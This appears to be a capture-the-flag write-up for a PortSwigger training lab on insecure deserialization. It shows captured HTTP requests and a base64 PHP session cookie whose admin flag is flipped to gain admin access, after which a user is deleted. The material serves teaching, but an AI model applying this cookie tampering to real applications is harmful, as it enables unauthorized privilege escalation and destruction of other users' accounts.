 ### Modifying serialized objects

Enter Credential in Login Form.

![Login Page](https://github.com/vrbait1107/CTF_WRITEUPS/blob/main/Portswigger/images/Insecure-deserialization/ID-1.png)

Capture the Request Using Burp Suite.

```
POST /login HTTP/1.1
Host: acf61f251eecb4b2c0ee0f960029001f.web-security-academy.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Origin: https://acf61f251eecb4b2c0ee0f960029001f.web-security-academy.net
DNT: 1
Connection: close
Referer: https://acf61f251eecb4b2c0ee0f960029001f.web-security-academy.net/login
Cookie: session=
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Sec-GPC: 1

username=wiener&password=peter

```

After Login we will be redirect to my-account and assign cookie base64 Serialized object.
Lets Decode it and modify it.

```
GET /my-account HTTP/1.1
Host: acf61f251eecb4b2c0ee0f960029001f.web-security-academy.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://acf61f251eecb4b2c0ee0f960029001f.web-security-academy.net/login
DNT: 1
Connection: close
Cookie: session=Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7YjowO30%3d
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Sec-GPC: 1

```

After modifying the session cookie
just change boolean value of admin to 1.

```
GET /my-account HTTP/1.1
Host: acf61f251eecb4b2c0ee0f960029001f.web-security-academy.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://acf61f251eecb4b2c0ee0f960029001f.web-security-academy.net/login
DNT: 1
Connection: close
Cookie: session=Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7YjoxO30=
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Sec-GPC: 1

```

After modifying we will redirect to admin page.
Show in below
just Delete user carlos and lab will be solved.

![Admin Page](https://github.com/vrbait1107/CTF_WRITEUPS/blob/main/Portswigger/images/Insecure-deserialization/ID-2.png)

---
